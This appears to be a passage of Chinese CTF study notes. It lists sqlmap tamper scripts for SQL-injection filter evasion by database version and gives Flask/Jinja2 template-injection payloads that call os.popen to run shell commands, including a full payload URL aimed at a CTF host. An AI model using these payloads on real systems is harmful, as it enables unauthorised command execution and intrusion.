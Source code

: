 PostgreSQL

PostgreSQL 版本 | 测试模块
---   | --- 
8.3/8.4/9.0 | between, charencode, greatest, least, lowercase, randomcase, space2comment, space2randomblank, uppercase
9.0 | percentage
9.0.3 | charunicodeencode
9.6.12 | substring2leftright
未明确 | commentbeforeparentheses

Oracle

Oracle 版本 | 测试模块
---   | --- 
10g | between, charencode, greatest, least, lowercase, randomcase, space2comment, space2randomblank, uppercase
未明确 | dunion, commentbeforeparentheses

Access

Access 版本 | 测试模块
---   | --- 
未明确 | appendnullbyte

SQLite

SQLite 版本 | 测试模块
---   | --- 
3 | randomcase
未明确 | space2dash

## SSTI

### python flask模版注入


```
//调用os模块的popen执行ls打印所有文件
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("命令").read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("ls").read()}}

//或者

//调用os模块的listdir打印文件
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir("./")}}

e.g.：
Payload：
http://220.249.52.133:39570/%7B%7B[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen(%22ls%22).read()%7D%7D

返回内容为：
URL http://220.249.52.133:39570/fl4g index.py not found
```

## 参考

* [CTF考点总结-sql注入](https://www.cnblogs.com/kagari/p/12635654.html)
* [CTF考点总结-文件上传/文件包含](https://www.cnblogs.com/kagari/p/12638765.html)
* [php伪协议总结](https://www.cnblogs.com/zzjdbk/p/13030717.html)